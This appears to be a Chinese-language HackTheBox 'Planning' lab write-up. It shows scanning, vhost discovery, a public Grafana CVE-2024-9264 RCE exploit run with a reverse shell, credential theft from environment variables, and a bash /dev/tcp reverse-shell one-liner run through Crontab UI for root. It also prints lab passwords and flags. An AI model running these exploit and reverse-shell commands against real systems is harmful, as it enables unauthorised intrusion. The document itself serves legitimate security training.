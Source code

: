 ```yaml
---
title: HackTheBox | Planning (Easy) Write Up
published: 2025-08-14
description: 'HackTheBox | Planning (Easy) Write Up'
image: 'images.jpg'
tags: [HTB,Writeup]
category: 'Writeup'
draft: false 
lang: ''
---
```


# HackTheBox | Planning (Easy) Write Up

## 題目資訊

**Target IP Address:**
10.10.11.68

**Machine Information:**
As is common in real life pentests, you will start the Planning box with credentials for the following account: admin / 0D5oT70Fq13EvB5r

## STEP 1. 資訊蒐集

### 錯誤方向
我一開始是用rustscan快速掃目標IP的port
```bash
$ rustscan -a 10.10.11.68 -r 1-65535

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

然後再用nmap去詳細檢查22,80 port資訊
```bash
$ nmap -A -p22,80 -sC -sV 10.10.11.68

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

發現訪問不了`http://planning.htb/`因為是靶機環境的vhost。

解法為在/etc/hosts加入`10.10.11.68 planning.htb`，可以成功訪問，然後用dirsearch去看目錄

```bash
$ dirsearch -u http://planning.htb/

Target: http://10.10.11.68/

[04:46:20] Starting:
[04:46:24] 301 -  178B  - /js  ->  http://planning.htb/js/
[04:46:42] 200 -   12KB - /about.php
[04:47:16] 200 -   10KB - /contact.php
[04:47:18] 301 -  178B  - /css  ->  http://planning.htb/css/
[04:47:33] 301 -  178B  - /img  ->  http://planning.htb/img/
[04:47:38] 403 -  564B  - /js/
[04:47:40] 403 -  564B  - /lib/
[04:47:40] 301 -  178B  - /lib  ->  http://planning.htb/lib/
```

接下來，我花很多時間去翻裡面東西，但不存在可利用的資訊，到此我去翻別人WriteUp才發現漏掉了掃Domain。

### 正確方向

這邊是使用gobuster去掃vhost

```
$ gobuster vhost -u http://planning.htb -w /usr/share/seclists/Discovery/DNS/combined_subdomains.txt --append-domain -t 50
```

過段時間可以找到`http://granfana.planning.htb`，接著修改`/etc/hosts`成`10.10.11.68 granfana.planning.htb`，即可成功訪問。

![image](https://hackmd.io/_uploads/ByxW4m9uge.png)

## STEP 2.CVE-2024–9264 on Grafana v11.0.0

這邊可以注意到最下方version 11，上網查資料發現存在CVE，可以直接RCE，這裡為我使用的Exploit。
https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

Terminal 1:
```
$ python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.123 --reverse-port 4444
```

Terminal 2:
```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 44218
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# /bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

到此我們成功拿到一個Container的機器。

## STEP 3.權限提升至 User

經過一陣檢查可以從env裡面可以看到User帳密(13、14行)
```=
# env
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
```

`enzo/RioTecRANDEntANT!`

```
$ ssh enzo@10.10.11.68
enzo@10.10.11.68's password:

enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt
4177a6f2f1ffa41a3b099217ca6a7610
```

## STEP 4.權限提升至 Root

也是經過一陣檢查可以發現cronjobs運行在port 8000，跟明文呈現的密碼`P4ssw0rdS0pRi0T3c`。

![image](https://hackmd.io/_uploads/BkyCGV5_xx.png)

接下來就訪問http://127.0.0.1:8000/，輸入`root/P4ssw0rdS0pRi0T3c`

發現Crontab UI介面可以以root執行任意command，構造一個reverse shell就可以提權至root。

![image](https://hackmd.io/_uploads/H1vREVcOel.png)

```
bash -c 'exec bash -i >& /dev/tcp/10.10.14.123/4444 0>&1'
```

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.123] from (UNKNOWN) [10.10.11.68] 48142
bash: cannot set terminal process group (1193): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@planning:/# cat /root/root.txt
cat /root/root.txt
692d2a5c422baaa8a483e46f6c89502a
```

https://labs.hackthebox.com/achievement/machine/2465396/660